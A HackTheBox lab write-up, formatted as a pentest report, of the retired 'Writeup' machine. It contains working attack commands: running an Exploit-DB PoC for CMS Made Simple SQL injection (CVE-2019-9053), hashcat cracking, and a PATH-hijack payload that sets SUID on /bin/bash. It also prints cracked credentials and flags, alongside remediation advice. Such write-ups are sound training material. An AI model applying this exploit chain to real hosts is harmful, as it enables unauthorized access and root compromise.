# Writeup — HackTheBox Report

| Difficulty | OS | Category |
| ---------- | -- | -------- |
| Easy | Linux | Web |

> Writeup of a retired Writeup machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Web Enumeration](#12-web-enumeration)
  * [1.3. CMS Fingerprinting](#13-cms-fingerprinting)
  * [2.1. Exploitation — SQL Injection](#21-exploitation--sql-injection)
  * [2.2. Hash Cracking](#22-hash-cracking)
  * [2.3. Initial Foothold](#23-initial-foothold)
  * [3.1. Privilege Discovery](#31-privilege-discovery)
  * [3.2. Process Monitoring](#32-process-monitoring)
  * [3.3. PATH Hijacking Exploitation](#33-path-hijacking-exploitation)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Writeup / IP: 10.129.68.170`
**Platform:** `HackTheBox`
**Date Completed:** `September 11, 2026`
**Assessment Type:** `Web Application / Linux Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was tasked to perform a penetration test against the Hack The Box Writeup target environment. The objective was to evaluate the security posture of the public-facing web application and underlying host, identify exploitable weaknesses, and determine whether an attacker could achieve full system compromise.

The assessment identified two chained vulnerabilities: a known unauthenticated SQL injection vulnerability in an outdated CMS installation (CVE-2019-9053), which disclosed a user's credentials, and an insecure PATH configuration that allowed privilege escalation from a low-privileged user to root. By combining these two weaknesses, Pheenix Security was able to fully compromise the target host.

Overall, the results indicate a high-risk exposure caused by a combination of outdated third-party software and an insecure system configuration. Immediate remediation should focus on patching the CMS to a current version and correcting the PATH-related misconfiguration, with follow-up testing to validate the fixes.

---

## Scope

| Host / URL / IP Address | Description |
| ------------------------- | ------------- |
| `Writeup / 10.129.68.170` | `Target machine — Linux web server` |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — passive/active information gathering on the target.
2. **Scanning & Enumeration** — port/service discovery and fingerprinting.
3. **Vulnerability Analysis** — identifying exploitable misconfigurations or CVEs.
4. **Exploitation** — gaining an initial foothold.
5. **Privilege Escalation** — moving from low-privilege access to admin/root.
6. **Post-Exploitation** — validating impact, capturing flags/evidence, cleanup.

---

## Tools Used

| Tool | Purpose |
| ---- | ------- |
| `Nmap` | Port scanning / service enumeration |
| `Browser DevTools` | Cookie inspection to fingerprint the CMS |
| `46635.py (Exploit-DB PoC)` | Automated exploitation of CVE-2019-9053 |
| `Hashcat` | Offline password hash cracking |
| `pspy32` | Unprivileged process monitoring to observe root-owned processes |

---

## Assessment Summary (Findings Overview)

The assessment identified an outdated, vulnerable CMS installation exposed to unauthenticated SQL injection, and a system-level PATH misconfiguration that enabled privilege escalation to root. Chaining these two findings resulted in full compromise of the target host. Based on the demonstrated attack path, the overall risk to the assessed environment is **Critical**.

| Severity | Count |
| -------- | ----- |
| Critical | 1 |
| High | 2 |
| Medium | 0 |
| Low | 0 |
| Informational | 0 |

| # | Severity | Finding Name |
| - | -------- | ------------- |
| 1 | Critical | Unauthenticated SQL Injection in CMS Made Simple (CVE-2019-9053) |
| 2 | High | Insecure Password Hashing (Salted MD5) |
| 3 | High | Privilege Escalation via PATH Hijacking (Uncontrolled Search Path Element) |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to root compromise, step by step, with commands and evidence.

### 1.1. Reconnaissance

```
nmap 10.129.68.170 -sC -sV
```



**Findings:** Port 22 (OpenSSH) and port 80 (Apache) open. Nmap's `http-robots.txt` script flagged one disallowed entry: `/writeup/`.

---

### 1.2. Web Enumeration

Visiting the site root returned a decorative placeholder page with no obvious content.



Checked `robots.txt` directly, which explicitly disallowed crawling of `/writeup/` — a strong hint that meaningful content exists there, since disallowing a path in `robots.txt` only prevents well-behaved crawlers from indexing it, not an attacker from visiting it manually.



Navigating directly to `/writeup/` (bypassing the robots.txt restriction, since it is not an access control) revealed an actual, functional page.



**Root cause of the exposure:** `robots.txt` is a voluntary crawling directive, not a security control — restricting a path there does not restrict access, it only signals a request that indexers ignore it. This is why a security assessment should always manually verify any Disallow entries.

---

### 1.3. CMS Fingerprinting

Inspected the browser cookies for the site and found a `CMSSESSID` cookie name, indicating the site is running some Content Management System, but not yet identifying which one.



Viewed the page source of `/writeup/` and found a `<meta name="Generator">` tag explicitly identifying the software and version:

```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```



**Findings:** The application is running **CMS Made Simple**, a version released in or before 2019.

---

### 2.1. Exploitation — SQL Injection

A known, public CVE exists for this version of CMS Made Simple:

- **CVE-2019-9053** — Unauthenticated, blind time-based SQL injection in the News module's `m1_idlist` parameter, affecting CMS Made Simple ≤ 2.2.9.
- Public PoC: [Exploit-DB #46635](https://www.exploit-db.com/exploits/46635)

Downloaded and ran the PoC script against the target:

```
wget https://www.exploit-db.com/download/46635
python2 -m pip install termcolor
python2 46635.py -u http://10.129.68.170/writeup
```

The script performs a fully automated blind SQL injection, extracting the following in sequence: the password salt, username, email, and salted password hash from the `cms_users` table.



**Results:**
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

**Root cause:** The News module builds a SQL query using unsanitized values from the `m1_idlist` URL parameter, allowing arbitrary boolean/time-based conditions to be injected into the query without authentication.

---

### 2.2. Hash Cracking

The extracted hash uses CMS Made Simple's salted MD5 scheme (`md5(salt + password)`), crackable offline with Hashcat mode 20:

```
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt.gz
```



**Result:** Password cracked to `raykayjay9`.

**Credentials obtained:** `jkr : raykayjay9`

---

### 2.3. Initial Foothold

Reused the recovered credentials to authenticate over SSH, which was exposed in the initial port scan:

```
ssh jkr@10.129.68.170
```



**user.txt:** `a65d375ce97c489b5d3d0c3ac03c7668`

---

### 3.1. Privilege Discovery

Checked group memberships for the current user:

```
id
```



**Findings:** `jkr` belongs to the non-default **staff** group. On Debian-based systems, this group is granted write access to `/usr/local/bin` and `/usr/local/sbin` — directories that appear earlier in the system `PATH` than the standard `/usr/bin` and `/bin`.

Confirmed the group's write access to those directories directly:

```
ls -ld /usr/local/bin/ /usr/local/sbin/
```



**Security implication:** Because these directories are searched before the standard system binary directories, any executable placed there with a name matching a common system utility will be executed instead of the legitimate one — by any process (including root's) that invokes that utility name without a fully qualified path.

---

### 3.2. Process Monitoring

To identify what root-owned processes might call an executable name that could be hijacked from `/usr/local/bin`, uploaded and ran `pspy32` (a tool for observing process activity without root privileges):

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32
scp pspy32 jkr@10.129.68.170:/tmp
cd /tmp
chmod +x pspy32
./pspy32
```

Triggered a new SSH login in a separate session while `pspy32` was running, and observed the following process chain executed by root (UID 0) on every login:

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
run-parts --lsbsysinit /etc/update-motd.d
/bin/sh /etc/update-motd.d/10-uname
```



**Root cause:** Root's login sequence calls `run-parts` by name only — not by its fully qualified path (`/bin/run-parts`) — while operating under a `PATH` environment variable where `/usr/local/bin` is searched **before** `/usr/bin`. Since `jkr` (via the `staff` group) can write to `/usr/local/bin`, a malicious file named `run-parts` placed there will be executed by root instead of the legitimate system binary.

---

### 3.3. PATH Hijacking Exploitation

Created a malicious script named `run-parts` in the writable, PATH-prioritized directory. The payload sets the SUID bit on `/bin/bash`, so that once executed as root, `bash` itself becomes a privilege escalation primitive:

```
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```



Logged out and back in via SSH to trigger the motd sequence again (which invokes `run-parts` as root), then confirmed the SUID bit had been set on `/bin/bash`:

```
ssh jkr@10.129.68.170
ls -l /bin/bash
```



With `/bin/bash` now SUID-root, executed it in privileged mode to obtain an effective-root shell and captured `root.txt`:

```
/bin/bash -p
id
cat /root/root.txt
```



**root.txt:** `93640deba8f0e0f628c3de0d3667a64d`

---

## Technical Findings Details

### 1. Unauthenticated SQL Injection in CMS Made Simple — Critical

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-89: Improper Neutralization of Special Elements used in an SQL Command |
| **CVSS 3.0 Score** | 8.1 (High) — `CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` *(NVD-assigned score for CVE-2019-9053)* |
| **Description (Incl. Root Cause)** | CMS Made Simple ≤ 2.2.9's News module fails to sanitize the `m1_idlist` URL parameter before using it in a SQL query, allowing an unauthenticated attacker to perform blind, time-based SQL injection. The root cause is running outdated, unpatched third-party software with a publicly known vulnerability. |
| **Security Impact** | An unauthenticated attacker can extract arbitrary data from the CMS database — including usernames, emails, password salts, and password hashes — without any credentials, as demonstrated using the public Exploit-DB PoC. |
| **Affected Host(s)** | `10.129.68.170:80` (`/writeup/moduleinterface.php`) |
| **Remediation** | - Upgrade CMS Made Simple to version 2.2.10 or later, which patches this vulnerability<br>- Establish a patch management process to keep third-party CMS software current<br>- Deploy a WAF to detect and block SQL injection attempt patterns as defense-in-depth<br>- Restrict `/writeup/` (or any staging/dev content) from production exposure until ready, rather than relying on `robots.txt` |
| **References** | [NVD: CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053) · [Exploit-DB #46635](https://www.exploit-db.com/exploits/46635) · [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |

**Evidence:**
```
python2 46635.py -u http://10.129.68.170/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

---

### 2. Insecure Password Hashing (Salted MD5) — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-916: Use of Password Hash With Insufficient Computational Effort |
| **CVSS 3.1 Score** | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **Description (Incl. Root Cause)** | User passwords in the CMS database were stored using a salted MD5 scheme (`md5(salt + password)`). While salting mitigates rainbow-table attacks, MD5 remains a fast hashing algorithm not designed for password storage, making it feasible to brute-force with commodity hardware and a wordlist — as demonstrated by cracking the extracted hash with Hashcat and rockyou.txt. |
| **Security Impact** | Once the SQL injection exposed the salted hash, the plaintext password was recovered, enabling SSH login as a legitimate system user and providing the initial foothold on the host. |
| **Affected Host(s)** | `10.129.68.170:80` (CMS database — `cms_users` table) |
| **Remediation** | - Migrate password storage to a slow, purpose-built hashing algorithm such as bcrypt, Argon2, or scrypt<br>- Enforce a minimum password complexity/length policy to resist wordlist-based cracking even if hashes are exposed<br>- Force a password reset for all users following any credential exposure incident |
| **References** | [OWASP: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html) · [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) |

**Evidence:**
```
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt.gz
→ 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

---

### 3. Privilege Escalation via PATH Hijacking — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-427: Uncontrolled Search Path Element |
| **CVSS 3.1 Score** | 8.4 (High) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The user `jkr` was a member of the non-default `staff` group, which by default has write access to `/usr/local/bin` and `/usr/local/sbin` on Debian-based systems. These directories are searched earlier in the system `PATH` than `/usr/bin` and `/bin`. A root-triggered process (the MOTD update sequence run on every SSH login) invoked the `run-parts` utility by name rather than by fully qualified path, allowing a malicious file of the same name placed in `/usr/local/bin` to be executed as root instead of the legitimate binary. |
| **Security Impact** | A low-privileged user able to write to any directory earlier in root's search `PATH` can escalate to full root access, since any unqualified command root executes becomes a potential hijack target. This was used to set the SUID bit on `/bin/bash`, yielding a root shell. |
| **Affected Host(s)** | `10.129.68.170` — `/usr/local/bin`, root's login/MOTD process chain |
| **Remediation** | - Remove unnecessary users from the `staff` group, or restrict its write access to `/usr/local/bin`/`/usr/local/sbin` if not required<br>- Ensure system scripts and cron/login sequences invoke binaries using fully qualified paths (e.g., `/bin/run-parts`) rather than relying on `PATH` resolution<br>- Apply the principle of least privilege to group memberships across all accounts<br>- Periodically audit writable directories that fall earlier in `PATH` than system binary directories |
| **References** | [MITRE ATT&CK: T1574.007 — Hijack Execution Flow: Path Interception by PATH Environment Variable](https://attack.mitre.org/techniques/T1574/007/) · [Debian Wiki: staff group](https://wiki.debian.org/SystemGroups) |

**Evidence:**
```
id
→ groups=1000(jkr),...,50(staff),...

echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts

# after re-triggering login:
ls -l /bin/bash
→ -rwsr-xr-x 1 root root 1099016 May 15 2017 /bin/bash

/bin/bash -p
id
→ euid=0(root)
cat /root/root.txt
```

---

## Remediation Summary

### Short Term

- **Finding #1 (SQL Injection / CVE-2019-9053)** – Upgrade CMS Made Simple to version 2.2.10 or later immediately; this is a vendor-supplied patch and requires no custom development.
- **Finding #3 (PATH Hijacking)** – Remove the malicious `run-parts` payload from `/usr/local/bin` and remove `jkr` (or any non-essential account) from the `staff` group as an immediate compensating control.

### Medium Term

- **Finding #2 (Weak Password Hashing)** – Migrate the CMS credential store to bcrypt/Argon2/scrypt and force a password reset across all accounts; requires a database migration and coordinated rollout.
